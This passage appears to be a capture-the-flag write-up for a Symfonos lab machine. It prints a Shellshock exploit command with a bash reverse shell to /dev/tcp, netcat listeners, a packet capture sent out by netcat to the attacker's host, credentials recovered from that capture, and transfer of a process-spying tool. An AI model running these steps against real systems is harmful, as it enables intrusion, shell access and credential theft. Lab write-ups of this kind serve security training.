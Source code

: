 ## Gain Access
### Shellshock
* [Bash - 'Shellshock' Environment Variables Command Injection](https://www.exploit-db.com/exploits/34766)

### Reverse Shell
```
$ php exp.php -u http://symfonos.local/cgi-bin/underworld/ -c "/bin/bash -c 'exec bash -i &>/dev/tcp/192.168.109.128/8787 <&1'"
```
```
$ nc -lvp 8787
```

## Privilege Escalation
### tcpdump
```
$ cd /tmp
cd /tmp
$ tcpdump -D
tcpdump -D
1.ens33 [Up, Running]
2.any (Pseudo-device that captures on all interfaces) [Up, Running]
3.lo [Up, Running, Loopback]
4.nflog (Linux netfilter log (NFLOG) interface)
5.nfqueue (Linux netfilter queue (NFQUEUE) interface)
6.usbmon1 (USB bus number 1)
7.usbmon2 (USB bus number 2)
$ tcpdump -w file.pcap -i lo
tcpdump -w file.pcap -i lo
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
```
* We send file.pcap to our machine to analysis.
```
$ nc 192.168.109.128 8080 < file.pcap
nc 192.168.109.128 8080 < file.pcap
```
```
$  nc -lvp 8080 > file.pcap
listening on [any] 8080 ...
connect to [192.168.109.128] from symfonos.local [192.168.109.133] 58604
```
### wireshark
* We found username **hades** and password **PTpZTfU4vxgzvRBE**.

![](https://i.imgur.com/QZhGVdR.png)

### ssh
```
$ ssh hades@192.168.109.133
```
### pspy32
* We send pspy32 to target machine.
```
$ nc 192.168.109.133 8080 < pspy32
```
```
$ nc -lvp 8080 > pspy32
```
* Then, we run pspy32.
```
$ chmod 777 pspy32
```